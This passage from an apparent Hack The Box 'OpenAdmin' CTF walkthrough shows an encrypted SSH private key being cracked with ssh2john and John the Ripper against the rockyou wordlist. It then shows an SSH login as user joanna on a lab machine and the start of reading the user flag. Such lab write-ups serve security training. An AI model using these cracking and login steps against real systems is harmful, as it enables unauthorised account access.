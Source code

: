 As this is encrypted, we are going have to decrypt it. 
First i used installed ssh2john 
```
sudo apt-get install ssh2john
/usr/share/john/ssh2john.py id_rsa.hash > crack.hash
john --wordlist=/usr/share/wordlists/rockyou.txt crack.hash
```
then ran john against the hash.
```
Using default input encoding: UTF-8                                                                                        
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])        
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads                                                                                                  
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.                                                                                              
Press 'q' or Ctrl-C to abort, almost any other key for status 
bloodninjas      (id_rsa.hash)                                                                                             
Warning: Only 2 candidates left, minimum 4 needed for performance.                         
1g 0:00:00:02 DONE (2020-04-29 22:18) 0.3759g/s 5391Kp/s 5391Kc/s 5391KC/sa6_123..*7¡Vamos!
Session completed
```

we now have the login for joanna.

## User 2 (Joanna)

```
kali@kali:~/HackTheBox/openadmin/keys$ ssh -i joanna joanna@10.10.10.171
Enter passphrase for key 'joanna': 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Apr 29 21:28:16 UTC 2020

  System load:  0.05              Processes:             155
  Usage of /:   50.2% of 7.81GB   Users logged in:       2
  Memory usage: 31%               IP address for ens160: 10.10.10.171
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

41 packages can be updated.
12 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Wed Apr 29 21:21:22 2020 from 10.10.15.226
joanna@openadmin:~$ 
```
The user flag for this box is found in her directory so we can have a look at that now 
```
joanna@openadmin:~$ wc -c user.txt 
```